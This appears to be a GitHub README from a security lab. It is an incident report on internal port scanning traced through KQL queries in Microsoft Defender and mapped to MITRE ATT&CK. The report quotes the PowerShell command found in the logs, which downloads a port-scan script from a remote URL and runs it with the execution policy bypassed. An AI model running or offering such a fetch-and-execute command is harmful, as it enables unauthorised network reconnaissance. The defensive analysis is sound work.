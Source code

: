 

# Sudden Network Slowdowns Project 
# Objective:
To investigate abnormal traffic patterns originating from within the network, identify any signs of lateral movement or misuse of built-in tools (e.g., PowerShell), and validate whether an internal host is responsible for the performance degradation.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [Step 1) Create a Windows virtual machine in the Azure portal](#step-1-create-a-windows-virtual-machine-in-the-azure-portal)
- [Step 2) Log into the VM and disable the Windows Firewall](#step-2-log-into-the-vm-and-disable-the-windows-firewall)
- [Step 3) Run a PowerShell command:](#step-3-run-a-powershell-command)
- [Step 4) Create a Network Security Group](#step-4-create-a-network-security-group)
- [Step 5) Login to tenable](#step-5-login-to-tenable)
- [Step 6) Run a Basic Scan: Unauthenticated](#step-6-run-a-basic-scan-unauthenticated)
- [Step 7) Run a Basic Scan: Authenticated](#step-7-run-a-basic-scan-authenticated)
- [Difference in Scan Duration](#difference-in-scan-duration)

---


## 🛡️ Incident Report: Internal Port Scanning Activity on 10.0.0.0/16 Network
## 1. Summary
Incident Title: Unauthorized Internal Port Scanning via PowerShell <br />
Date of Discovery: June 10, 2025 <br />
Reporting Team: Security Operations / Threat Hunting <br />
Impacted Network Segment: 10.0.0.0/16 <br />
Affected Host: windows-target-1 (10.0.0.5) <br />
TTPs Observed: T1046, T1059.001, T1078, T1105, T1204.002 <br />
Incident Status: Contained; Rebuilt/ Re-imaging  <br />

## 2. Preparation
### Observation:
The server team reported network performance degradation affecting older devices on the 10.0.0.0/16 internal network.

### Initial Assumption:
After ruling out external threats (e.g., DDoS), internal causes such as large file transfers or port scanning were considered. The environment allows unrestricted internal traffic and the use of scripting tools like PowerShell.

### Hypothesis:
A compromised internal host may be engaging in lateral movement or reconnaissance via port scanning.

## 3. Data Collection
### Data Sources Queried:
DeviceNetworkEvents <br />
DeviceProcessEvents <br />
DeviceFileEvents <br />

### Focus Areas:

Failed network connections (potential scanning) <br />
Suspicious process executions <br />
File downloads or script execution activity <br />

## 4. Data Analysis
### Step 1:
Analyzed DeviceNetworkEvents for failed outbound connection attempts.

```kql
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize ConnectionCount = count() by DeviceName, ActionType, LocalIP, RemoteIP
| order by ConnectionCount

```
![DeviceNetworkEvents](https://github.com/user-attachments/assets/2fdfee8a-937d-4300-97eb-d34024aa24ec)


Result: IP 10.0.0.5 exhibited an unusually high number of failed connections.

### Step 2:
Filtered for all failed connection timestamps for IP 10.0.0.5:

```kql
let IPInQuestion = "10.0.0.5";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| summarize FailedConnectionsAttempts = count() by DeviceName, ActionType, LocalIP
| order by FailedConnectionsAttempts desc
```

![DeviceNetworkEvents2](https://github.com/user-attachments/assets/60bc672e-f34a-4e99-aa54-6af5995d8e13)

Finding:
Connections were attempted to multiple ports in sequential order—indicating an automated port scan.

## 5. Investigation

Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

```kql
let VMName = "windows-target-1";
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == VMName
| where InitiatingProcessCommandLine contains "portscan"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName

```
![DeviceProcessEvents](https://github.com/user-attachments/assets/42402a97-5812-4ae5-9230-e88689618cbc)


Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1

```

Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

## 6. Response
### Actions Taken:

Logged into the device to verify script existence.
Confirmed the file portscan.ps1 existed under C:\ProgramData.
Isolated the host from the network.
Performed a full malware scan (no malware detected).
Escalated to IT for reimaging of the device to ensure integrity.

## 7. MITRE ATT&CK Mapping

- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)
  
## 8. Lessons Learned / Improvement
### Preventive Measures:

Implement internal network segmentation to reduce lateral movement risk.
Restrict PowerShell usage via Group Policy or allow-listing.
Apply egress controls and file reputation filtering for outbound web requests.
Increase visibility over SYSTEM-level activities on endpoints.

### Detection Enhancements:

Create alerts for abnormal outbound connection spikes.
Monitor for suspicious PowerShell usage and external script downloads.
Correlate failed connection logs with script execution patterns.

## 9. Final Status
Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild

Follow-up: Review PowerShell execution policies and endpoint monitoring rules


